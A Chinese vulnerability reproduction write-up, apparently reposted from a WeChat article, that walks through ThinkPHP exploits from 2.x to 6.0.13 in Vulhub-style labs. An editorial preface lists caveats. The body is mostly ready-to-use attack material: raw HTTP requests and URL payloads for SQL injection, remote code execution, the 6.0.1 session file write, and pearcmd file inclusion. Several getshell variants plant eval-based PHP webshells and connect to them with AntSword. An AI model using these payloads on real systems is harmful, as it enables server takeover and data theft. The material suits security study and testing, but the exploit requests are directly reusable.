## 核对与使用边界

- 明确更正：原 version 字段抽入命令、源码、路径、配置或普通叙述，不是版本号，已清空机器版本字段并原样保留于 version_notes；实际版本/分支条件见本节逐篇记录，未从代码猜造版本。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：2.x、5.0.9 SQL、5.x两RCE、6.0.1 session、&lt;=6.0.13多语言；标题全版本夸大

代码与实验材料：537行全读，包含完整GET/头/Cookie实验，session第一方案明确失败，保留失败说明

来源证据范围：微信原文，提Vulhub但无精确出处

- **实验改动边界（1）**：人为绕过依赖兼容检查不宜作为安装建议；依据：作者修改70400版本检查以PHP7.3强行运行，可能掩盖实际依赖不兼容，需固定可兼容环境。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

- **事实待核（2）**：version元数据为命令；依据：字段docker compose up -d而非版本。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（3）**：实验范围与标题不符；依据：只选若干版本，不能“全版本”；5.0.9 SQL与511&lt;5.0.9边界需核验。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（4）**：请求长度明显未随body更新；依据：写shell包Content-Length73但body远长于id示例；不应原样复制。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **操作与副作用边界（5）**：副作用与来源需补；依据：多处写shell和改系统composer全局源，缺恢复；原生请求与截图可作变体附件。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 漏洞复现   ThinkPHP 全版本漏洞复现

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/A23P3EWTSTLkL5N0xXoIWg)

ThinkPHP
========

TP - 2.x-RCE
------------

ThinkPHP 2.x 版本中，使用`preg_replace`的`/e`模式匹配路由：

```
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));

```

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

ThinkPHP 3.0 版本因为 Lite 模式下没有修复该漏洞，也存在这个漏洞。

环境搭建

执行如下命令启动 ThinkPHP 2.1 的 Demo 应用：

```
docker compose up -d

```



环境启动后，访问`http://your-ip:8080/Index/Index`即可查看到默认页面。

漏洞复现

直接访问`http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D`即可执行`phpinfo()`：



TP - 2.x-RCE x Getshell
-----------------------

下面给出一个能够直接菜刀连接的 payload：

```
/index.php?s=a/b/c/${@print(eval($_POST[1]))}

```



使用蚁剑连接





TP - 5.0.9-SQLi
---------------

启动后，访问`http://your-ip/index.php?ids[]=1&ids[]=2`，即可看到用户名被显示了出来，说明环境运行成功。



访问`http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，信息成功被爆出：



找到数据库账号密码，敏感信息泄露。





TP - 5.0.22/5.1.29-RCE
----------------------

ThinkPHP 是一款运用极广的 PHP 开发框架。其版本 5 中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

控制器名未过滤导致 rce

`function`为反射调用的函数，`vars[0]`为传入的回调函数，`vars[1][]`为参数为回调函数的参数

运行 ThinkPHP 5.0.20 版本：

```
docker compose up -d

```

环境启动后，访问`http://your-ip:8080`即可看到 ThinkPHP 默认启动页面。



直接访问`http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`，即可执行 phpinfo



```
http://192.168.66.132:8080/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

```



TP - 5.0.22/5.1.29-RCE x Getshell
---------------------------------

```
http://192.168.66.132:8080/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo '<?php @eval($_POST[1]);?>' > shell.php

```



TP - 5.0.23-RCE
---------------

ThinkPHP 是一款运用极广的 PHP 开发框架。其 5.0.23 以前的版本中，获取 method 的方法中没有正确处理方法名，导致攻击者可以调用 Request 类任意方法并构造利用链，从而导致远程代码执行漏洞。

在 vulhub 中开启即可



页面访问



抓包更改为 POST



```
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id

```



TP - 5.0.23-RCE x Getshell
--------------------------

```
POST /index.php?s=captcha HTTP/1.1
Host: 192.168.66.132:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: think_lang=zh-cn
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 73

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo '<?php @eval($_POST[1]);?>' > shell.php

```



响应 500，实际上上传成功



访问浏览器



蚁剑连接



TP - 6.0.1 Session 任意文件操作
-------------------------

使用 Kali 来一步一步部署 6.0 的 tp

```
# 安装compose并放到bin下
curl -sS https://getcomposer.org/installer | php
mv composer.phar /usr/local/bin/composer
# 换源
composer config -g repo.packagist composer https://mirrors.aliyun.com/composer/
# 安装thinkphp6.0
cd /var/www/html
composer create-project topthink/think tp6 6.0.1 --prefer-dist

# 依赖
sudo apt-get install php-mbstring
sudo apt-get install php-dom

# 启动
cd tp6
php think run -p 8000
# ！访问 ip:8000

```





更改版本，使用 composer update 即可更新版本, “^6.0.0” 改为 "6.0.1"

修改两个文件，首先修改 app/controller/Index.php

```
<?php
namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
   public function index()
  {
       # + 加上这三行
       $a = isset($_GET['a']) && !empty($_GET['a']) ? $_GET['a'] : '';
       $b = isset($_GET['b']) && !empty($_GET['b']) ? $_GET['b'] : '';
       session($a,$b);
       return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"> <h1>:) </h1><p> ThinkPHP V6<br/><span style="font-size:30px">13载初心不改 - 你值得信赖的PHP框架</span></p></div><script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"></script><script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"></script><think id="eab4b9f840753f8e7"></think>';
  }

   public function hello($name = 'ThinkPHP6')
  {
       return 'hello,' . $name;
  }
}

```

开启 session 且写入的 session 可控

/tp6/app/middleware.php 文件开启 session

去掉注释 session 的 //



> 遇到的一些小问题，kali 下载 php7.4 一直缺少依赖，72,73 都安装成功，但是 composer 必须 7.4 及以上，这就很烦，我干脆干掉它，直接找文件改代码，等于 7.3。没想到成功。



本来是 70400，再次执行 php7.3 think run 就 ok 了



方法一

```
GET /?a=a&b=12<?php+phpinfo();+?> HTTP/1.1
Host: 192.168.66.132:8001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=1234567890123456789012345678.php;
Upgrade-Insecure-Requests: 1


```



1234567890123456789012345678.php

```
http://192.168.66.132:8001/runtime/session/sess_1234567890123456789012345678.php

```



访问没成功，emmm

方法二

```
GET /?a=a&b=12<?php+phpinfo();+?> HTTP/1.1
Host: 192.168.66.132:8001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=/../../../public/aaaaaaaaaaa.php;
Upgrade-Insecure-Requests: 1


```





TP - 6.0.13-Pearcmd x EXP
-------------------------

ThinkPHP 是一个在中国使用较多的 PHP 框架。在其 6.0.13 版本及以前，存在一处本地文件包含漏洞。当多语言特性被开启时，攻击者可以使用`lang`参数来包含任意 PHP 文件。

虽然只能包含本地 PHP 文件，但在开启了`register_argc_argv`且安装了 pcel/pear 的环境下，可以包含`/usr/local/lib/php/pearcmd.php`并写入任意文件。

Payload:

```
GET /public/index.php?+config-create+/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
Host: 192.168.36.128
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
think-lang:../../../../../../../../usr/local/lib/php/pearcmd
Cookie: think_lang=zh-cn
Connection: close

```



查看

```
docker exec -it 20c58ef53381 /bin/bash

```



包含 hello.php

```
GET /public/index.php HTTP/1.1
Host: 192.168.36.128
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
think-lang:../../../../../../../../tmp/hello
Cookie: think_lang=zh-cn
Connection: close

```

浏览器访问



TP - 6.0.13-Pearcmd x GET
-------------------------

需要根据实际情况改变文件名称，写不进去可以考虑多加点../

```
GET /public/index.php?lang=../../../../../../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?=phpinfo()?>+/tmp/1.php HTTP/1.1
Host: 192.168.36.128
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cookie: think_lang=zh-cn
Connection: close

```



查看是否成功



文件包含读取

```
GET /public/index.php?lang=../../../../../../../../../../../../tmp/1 HTTP/1.1
Host: 192.168.36.128
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cookie: think_lang=zh-cn
Connection: close

```





TP - 6.0.13-Pearcmd x HEADER
----------------------------

```
GET /public/index.php?+config-create+/&/<?=phpinfo()?>+/tmp/2.php HTTP/1.1
Host: 192.168.36.128
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
think-lang:../../../../../../../../../../../../../../usr/local/lib/php/pearcmd
Cookie: think_lang=zh-cn
Connection: close

```



查看



文件包含查看

```
GET /public/index.php?lang=../../../../../../../../../../../../tmp/2 HTTP/1.1
Host: 192.168.36.128
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cookie: think_lang=zh-cn
Connection: close

```



TP - 6.0.13-Pearcmd x COOKIES
-----------------------------

```
GET /public/index.php?+config-create+/&/<?=phpinfo()?>+/tmp/3.php HTTP/1.1
Host: 192.168.36.128
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cookie: think_lang=../../../../../../../../../../../../../../usr/local/lib/php/pearcmd
Connection: close

```



查看是否成功



文件包含查看

```
GET /public/index.php?lang=../../../../../../../../../../../../tmp/3 HTTP/1.1
Host: 192.168.36.128
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Sec-Purpose: prefetch;prerender
Purpose: prefetch
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cookie: think_lang=zh-cn
Connection: close

```



TP - 6.0.13-Pearcmd x Getshell
------------------------------

```
GET /public/index.php?lang=../../../../../../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?=@eval($_POST['cmd']);?>+/var/www/html/shell.php HTTP/1.1
Host: 192.168.36.128
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cookie: think_lang=zh-cn
Connection: close

```



文件包含访问

```
GET /public/index.php?lang=../../../../../../../../../../../../var/www/html/shell HTTP/1.1
Host: 192.168.36.128
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Sec-Purpose: prefetch;prerender
Purpose: prefetch
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cookie: think_lang=zh-cn
Connection: close

```

页面访问



使用蚁剑连接



---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
